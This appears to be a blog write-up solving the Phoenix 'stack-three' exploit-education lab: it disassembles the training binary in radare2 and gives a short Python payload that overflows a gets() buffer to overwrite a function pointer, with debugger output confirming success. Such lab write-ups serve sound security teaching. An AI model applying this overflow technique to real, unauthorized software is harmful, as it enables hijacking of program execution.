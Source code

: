 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Three"
date: "2019-10-12 10:33:00 +0300"
categories: exploit-education phoenix x86
---
```


To get information about the binary, `rabin2` is really useful.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-three 
arch     x86
baddr    0x8048000
binsz    3812
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Once more, this is a 32-bit Linux ELF with no protection against stack overflows.

The next step is to disassemble the binary.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-three 
{% endhighlight %}

{% highlight nasm %}
[0x080483a0]> aas
Cannot analyze at 0x08048620
[0x080483a0]> afl
0x0804831c    1 17           sym._init
0x080484f0    7 277  -> 112  sym.frame_dummy
0x080485e0    5 49           sym.__do_global_ctors_aux
0x08048611    1 12           sym._fini
0x08048470    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 588  -> 695  sym..interp
0x080483a0    1 62           entry0
0x08048390    1 6            sym.imp.__libc_start_main
0x08048710    1 14           loc.__GNU_EH_FRAME_HDR
0x08048734    3 34           sym..eh_frame
0x08048770    1 38           obj.__EH_FRAME_BEGIN
0x080483e0    4 49   -> 40   sym.deregister_tm_clones
0x080487b0    1 4            obj.__FRAME_END
0x08048555    4 132          main
0x08048535    1 32           sym.complete_level
0x08048360    1 6            sym.imp.puts
0x08048380    1 6            sym.imp.exit
0x08048350    1 6            sym.imp.gets
0x08048370    1 6            sym.imp.fflush
[0x080483a0]> s main
[0x08048555]> pdf
/ (fcn) main 132
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483d4
|           0x08048555      8d4c2404       lea ecx, [arg_4h]
|           0x08048559      83e4f0         and esp, 0xfffffff0
|           0x0804855c      ff71fc         push dword [ecx - 4]
|           0x0804855f      55             push ebp
|           0x08048560      89e5           mov ebp, esp
|           0x08048562      51             push ecx
|           0x08048563      83ec54         sub esp, 0x54
|           0x08048566      83ec0c         sub esp, 0xc
|           0x08048569      6864860408     push str.Welcome_to_phoenix_stack_three__brought_to_you_by_https:__exploit.education ; 0x8048664 ; "Welcome to phoenix/stack-three, brought to you by https://exploit.education"
|           0x0804856e      e8edfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      c745f4000000.  mov dword [var_ch], 0
|           0x0804857d      83ec0c         sub esp, 0xc
|           0x08048580      8d45b4         lea eax, [var_4ch]
|           0x08048583      50             push eax
|           0x08048584      e8c7fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048589      83c410         add esp, 0x10
|           0x0804858c      8b45f4         mov eax, dword [var_ch]
|           0x0804858f      85c0           test eax, eax
|       ,=< 0x08048591      742c           je 0x80485bf
|       |   0x08048593      8b45f4         mov eax, dword [var_ch]
|       |   0x08048596      83ec08         sub esp, 8
|       |   0x08048599      50             push eax
|       |   0x0804859a      68b0860408     push str.calling_function_pointer____p ; 0x80486b0 ; "calling function pointer @ %p\n"
|       |   0x0804859f      e89cfdffff     call sym.imp.printf         ; sym..interp+0x22c
|       |   0x080485a4      83c410         add esp, 0x10
|       |   0x080485a7      a1a4980408     mov eax, dword [obj.stdout] ; obj.__TMC_END
|       |                                                              ; [0x80498a4:4]=0
|       |   0x080485ac      83ec0c         sub esp, 0xc
|       |   0x080485af      50             push eax
|       |   0x080485b0      e8bbfdffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|       |   0x080485b5      83c410         add esp, 0x10
|       |   0x080485b8      8b45f4         mov eax, dword [var_ch]
|       |   0x080485bb      ffd0           call eax
|      ,==< 0x080485bd      eb10           jmp 0x80485cf
|      |`-> 0x080485bf      83ec0c         sub esp, 0xc
|      |    0x080485c2      68d0860408     push str.function_pointer_remains_unmodified_:___better_luck_next_time ; 0x80486d0 ; "function pointer remains unmodified :~( better luck next time!"
|      |    0x080485c7      e894fdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485cc      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485bd
|      `--> 0x080485cf      83ec0c         sub esp, 0xc
|           0x080485d2      6a00           push 0
\           0x080485d4      e8a7fdffff     call sym.imp.exit           ; void exit(int status)
[0x08048555]> agf
[0x08048555]>  # int main (int argc, char **argv, char **envp);
         .-----------------------------------------------------------------------------------------.
         |  0x8048555                                                                              |
         | (fcn) main 132                                                                          |
         |   int main (int argc, char **argv, char **envp);                                        |
         | ; var int32_t var_4ch @ ebp-0x4c                                                        |
         | ; var int32_t var_ch @ ebp-0xc                                                          |
         | ; arg int32_t arg_4h @ esp+0x4                                                          |
         | ; DATA XREF from entry0 @ 0x80483d4                                                     |
         | lea ecx, [arg_4h]                                                                       |
         | and esp, 0xfffffff0                                                                     |
         | push dword [ecx - 4]                                                                    |
         | push ebp                                                                                |
         | mov ebp, esp                                                                            |
         | push ecx                                                                                |
         | sub esp, 0x54                                                                           |
         | sub esp, 0xc                                                                            |
         | ; 0x8048664                                                                             |
         | ; "Welcome to phoenix/stack-three, brought to you by https://exploit.education"         |
         | push str.Welcome_to_phoenix_stack_three__brought_to_you_by_https:__exploit.education    |
         | ; int puts(const char *s)                                                               |
         | call sym.imp.puts;[oa]                                                                  |
         | add esp, 0x10                                                                           |
         | mov dword [var_ch], 0                                                                   |
         | sub esp, 0xc                                                                            |
         | lea eax, [var_4ch]                                                                      |
         | push eax                                                                                |
         | ; char *gets(char *s)                                                                   |
         | call sym.imp.gets;[ob]                                                                  |
         | add esp, 0x10                                                                           |
         | mov eax, dword [var_ch]                                                                 |
         | test eax, eax                                                                           |
         | je 0x80485bf                                                                            |
         `-----------------------------------------------------------------------------------------'
                 f t
                 | |
                 | '--------------------------------.
    .------------'                                  |
    |                                               |
.-------------------------------------------.   .---------------------------------------------------------------------------.
|  0x8048593                                |   |  0x80485bf                                                                |
| mov eax, dword [var_ch]                   |   | sub esp, 0xc                                                              |
| sub esp, 8                                |   | ; 0x80486d0                                                               |
| push eax                                  |   | ; "function pointer remains unmodified :~( better luck next time!"        |
| ; 0x80486b0                               |   | push str.function_pointer_remains_unmodified_:___better_luck_next_time    |
| ; "calling function pointer @ %p\n"       |   | ; int puts(const char *s)                                                 |
| push str.calling_function_pointer____p    |   | call sym.imp.puts;[oa]                                                    |
| ; sym..interp+0x22c                       |   | add esp, 0x10                                                             |
| call sym.imp.printf;[oc]                  |   `---------------------------------------------------------------------------'
| add esp, 0x10                             |       v
| ; obj.__TMC_END                           |       |
| ; [0x80498a4:4]=0                         |       |
| mov eax, dword [obj.stdout]               |       |
| sub esp, 0xc                              |       |
| push eax                                  |       |
| ; int fflush(FILE *stream)                |       |
| call sym.imp.fflush;[od]                  |       |
| add esp, 0x10                             |       |
| mov eax, dword [var_ch]                   |       |
| call eax                                  |       |
| jmp 0x80485cf                             |       |
`-------------------------------------------'       |
    v                                               |
    |                                               |
    '-------------------------------------.         |
                                          | .-------'
                                          | |
                                    .-----------------------------------.
                                    |  0x80485cf                        |
                                    | ; CODE XREF from main @ 0x80485bd |
                                    | sub esp, 0xc                      |
                                    | push 0                            |
                                    | ; void exit(int status)           |
                                    | call sym.imp.exit;[oe]            |
                                    `-----------------------------------'
{% endhighlight %}

This level is really not that different from the previous ones. What is of importance is that the variable `var_ch`, that needs to be overwritten by exploiting the vulnerable to stack-based buffer overflow `gets` call, is being `call`ed. Considering that its value can be overwritten, this means that an attacker can have control over the program execution.

The approach to complete this level is identical to the previous one. The objective is to call the function `sym.complete_level` at address `0x08048535`.

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x35\x85\x04\x08')
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-three -r myProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7f51d4b]> aas
Cannot analyze at 0x08048620
[0xf7f51d4b]> db 0x08048584
[0xf7f51d4b]> dc
Welcome to phoenix/stack-three, brought to you by https://exploit.education
hit breakpoint at: 8048584
[0x08048584]> dr
eax = 0xffebf72c
ebx = 0xf7f87000
ecx = 0xffebf660
edx = 0x00000000
esi = 0xffebf804
edi = 0x00000001
esp = 0xffebf710
ebp = 0xffebf778
eip = 0x08048584
eflags = 0x00000296
oeax = 0xffffffff
[0x08048584]> px/24xw 0xffebf710
0xffebf710  0xffebf72c 0x00000000 0x00000084 0x00000010  ,...............
0xffebf720  0x0804831c 0x08048611 0x00000000 0x00000063  ............c...
0xffebf730  0x00000000 0x080482e4 0x00000008 0x00000008  ................
0xffebf740  0x00000011 0xf7f8919c 0x00000000 0x080482ec  ................
0xffebf750  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffebf760  0x00000000 0x00000000 0x00000000 0x00000000  ................
[0x08048584]> px/xw 0xffebf778-0xc
0xffebf76c  0x00000000                                   ....
[0x08048584]> dso
hit breakpoint at: 8048589
[0x08048584]> px/24xw 0xffebf710
0xffebf710  0xffebf72c 0x00000000 0x00000084 0x00000010  ,...............
0xffebf720  0x0804831c 0x08048611 0x00000000 0x58585858  ............XXXX
0xffebf730  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf740  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf750  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf760  0x58585858 0x58585858 0x58585858 0x08048535  XXXXXXXXXXXX5...
[0x08048584]> px/xw 0xffebf778-0xc
0xffebf76c  0x08048535                                   5...
[0x08048584]> dc
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!
{% endhighlight %}

## Conclusion
Stack Three did not differ from Stack Two besides the value that needed to be written on the local variable `var_ch`.